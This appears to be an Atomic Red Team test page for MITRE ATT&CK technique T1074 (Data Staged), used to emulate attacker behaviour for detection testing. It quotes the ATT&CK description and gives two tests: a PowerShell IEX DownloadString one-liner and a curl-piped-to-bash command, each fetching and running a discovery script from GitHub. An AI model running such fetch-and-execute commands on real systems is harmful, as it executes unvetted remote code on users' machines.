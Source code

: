 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows

#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| payload_bat_file | URL of the payload .BAT file. | Url |https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.bat|

#### Run it with `powershell`!
```
"IEX (New-Object Net.WebClient).DownloadString('#{payload_bat_file}')" > c:\windows\pi.log
```
<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS

#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| payload_sh_file | URL of the payload .sh file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.sh|

#### Run it with `bash`!
```
curl -s #{payload_sh_file} | bash -s > /tmp/discovery.log
```
<br/>
